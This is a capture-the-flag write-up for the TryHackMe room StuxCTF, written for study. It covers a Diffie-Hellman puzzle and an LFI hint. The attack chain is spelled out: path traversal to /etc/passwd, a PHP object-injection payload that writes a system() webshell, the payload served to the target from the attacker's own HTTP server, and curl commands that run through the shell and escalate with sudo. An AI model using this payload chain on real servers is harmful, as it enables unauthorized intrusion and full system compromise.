



StuxCTF
All flags, passwords, and hashes have been redacted per TryHackMe's write-up policy. This write-up focuses on methodology and techniques.
// Overview
StuxCTF is a TryHackMe room that combines cryptographic concepts with web application exploitation. The attack chain includes:
- Diffie-Hellman key exchange to discover a hidden directory
- Local File Inclusion (LFI) vulnerability discovery
- PHP Object Injection via insecure deserialization
- Remote payload hosting to bypass file existence checks
- Webshell deployment for command execution
- Trivial privilege escalation via
sudo
// Phase 1: Reconnaissance
Initial reconnaissance begins with a full port scan:
nmap -sV -T4 -p- <target_ip>
The scan reveals two open ports:
PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 80/tcp open http Apache httpd 2.4.18 (Ubuntu)
Port 80 hosts a web page with a minimalistic design. Viewing the source code reveals a hidden comment:
<!-- The secret directory is... p: 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251; g: 7; a: 330; b: 450; g^c: 6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617 -->
The robots.txt file also confirms the theme:
# robots.txt generated by StuxCTF # Diffie-Hellman User-agent: * Disallow: Disallow: /StuxCTF/
// Phase 2: Diffie-Hellman Hidden Directory
The comment in the source code provides the Diffie-Hellman values:
- p — A large prime number
- g — 7
- a — 330
- b — 450
- g^c — The public key
In Diffie-Hellman, the shared secret is calculated as:
shared_secret = (g^c)^(a * b) mod p
Using Python, we compute the shared secret:
p = 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251 g_c = 6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617 a = 330 b = 450 shared = pow(g_c, a * b, p) print(shared)
This outputs:
4731502893726489553913132817668435073257703998402300518920399388568732895380420270497705080780083292819852656706944604442285505527079932762337253841976839
The first 128 characters of this number serve as the hidden directory:
http://<target_ip>/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/

// Phase 3: Local File Inclusion
The new page contains another hint in the source:
<!-- hint: /?file= -->
This indicates a Local File Inclusion (LFI) vulnerability. But there's a catch — we can't read files directly because unserialize() fails.
We can, however, check if files exist by looking for the absence of the "File no Exist!" error message. If a file doesn't exist, the server returns that string.
Testing ?file=../../../../etc/passwd confirms the LFI works — no error means the file exists.
We can also read index.php because it has a special encoding case. The server returns a long hexadecimal string:

The decoding chain is: Hex → Reverse → Base64 Decode → PHP Source Code
This reveals the PHP source code:
<?php
error_reporting(0);
class file {
public $file = "dump.txt";
public $data = "dump test";
function __destruct(){
file_put_contents($this->file, $this->data);
}
}
$file_name = $_GET['file'];
if(isset($file_name) && !file_exists($file_name)){
echo "File no Exist!";
}
if($file_name=="index.php"){
$content = file_get_contents($file_name);
$tags = array("", "");
echo bin2hex(strrev(base64_encode(nl2br(str_replace($tags, "", $content)))));
}
unserialize(file_get_contents($file_name));
?>
bin2hex(strrev(base64_encode())) as obfuscation.
We also check the assets/ directory and find a standard structure with assets/js/app.js and assets/css/ files.
// Phase 4: PHP Object Injection
The vulnerability is in the unserialize() call. The file class has a __destruct() method that writes arbitrary files using file_put_contents().
__destruct() executes. By controlling the object's properties, we can write any file.
We create a serialized payload to write a webshell. On our attack machine, we create a PHP script:
<?php
class file {
public $file = "cmd.php";
public $data = '<?php system($_GET["cmd"]); ?>';
}
echo serialize(new file());
?>
Running this produces the serialized string:
O:4:"file":2:{s:4:"file";s:7:"cmd.php";s:4:"data";s:30:"<?php system($_GET["cmd"]); ?>";}
We save this to a file called payload.txt:
echo 'O:4:"file":2:{s:4:"file";s:7:"cmd.php";s:4:"data";s:30:"<?php system($_GET["cmd"]); ?>";}' > payload.txt
// Phase 5: Deploying the Webshell
The file_exists() check prevents direct file inclusion. But file_get_contents() can read HTTP URLs!
The solution: Host the serialized payload on our machine and make the target fetch it.
python3 -m http.server 9000
"http://<target_ip>/<hidden_dir>/?file=http://<your_ip>:9000/payload.txt"
The server downloads our payload, unserializes it, and creates cmd.php in the hidden directory.
We verify the webshell works by executing id:

curl "http://<target_ip>/<hidden_dir>/cmd.php?cmd=id" uid=33(www-data) gid=33(www-data) groups=33(www-data)
file_get_contents()'s ability to read HTTP URLs.
// Phase 6: Flags & Privilege Escalation
With the webshell active, we can read files. First, locate user.txt:
curl "http://<target_ip>/<hidden_dir>/cmd.php?cmd=find%20/%20-name%20user.txt%202>/dev/null" /home/<user>/user.txt
Then read it:
curl "http://<target_ip>/<hidden_dir>/cmd.php?cmd=cat%20/home/<user>/user.txt" [REDACTED]
Privilege escalation is trivial — checking sudo -l reveals:
User www-data may run the following commands on ubuntu:
(ALL) NOPASSWD: ALL
This means www-data can run any command as root without a password:
curl "http://<target_ip>/<hidden_dir>/cmd.php?cmd=sudo%20cat%20/root/root.txt" [REDACTED]
// Key Takeaways
unserialize() function on user-controlled data can lead to complete compromise. This is a common vulnerability in older PHP applications.
file_get_contents(), we achieved arbitrary file write despite the file_exists() check.
(ALL) NOPASSWD: ALL configuration made privilege escalation trivial.
robots.txt and common directories. The assets/ directory and robots.txt provided additional context and hints.